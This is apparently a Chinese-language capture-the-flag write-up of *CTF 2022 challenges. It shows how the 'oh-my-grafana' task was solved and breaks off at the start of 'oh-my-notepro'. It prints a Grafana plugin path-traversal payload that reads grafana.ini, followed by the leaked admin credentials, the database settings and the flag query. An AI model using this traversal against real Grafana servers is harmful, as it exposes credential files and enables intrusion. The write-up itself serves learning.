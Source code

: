 题目环境https://github.com/sixstars/starctf2022

# oh-my-grafana

这道题环境已经关了，docker也报错了，但是并不难，网上可以搜到payload，然后读到后台账户和密码

```
/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini
```

```
admin@localhost
5f989714e132c9b04d4807dafeb10ade
```

还有mysql数据库的密码

```
# Either "mysql", "postgres" or "sqlite3", it's your choice
;type = mysql
;host = mysql:3306
;name = grafana
;user = grafana
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password = grafana
```

进去连接MySQL数据库（默认是连接着的，也可能是公共靶场的原因）

![image-20220418172734955](images/1.png)

有个可以执行SQL语句的地方

开始一直读不到，甚至连不上，应该是有人捣乱，最后的payload

```
select flag from fffffflllllllllaaaagggggg
```

# oh-my-notepro

随便用一个账号登陆，有个create note
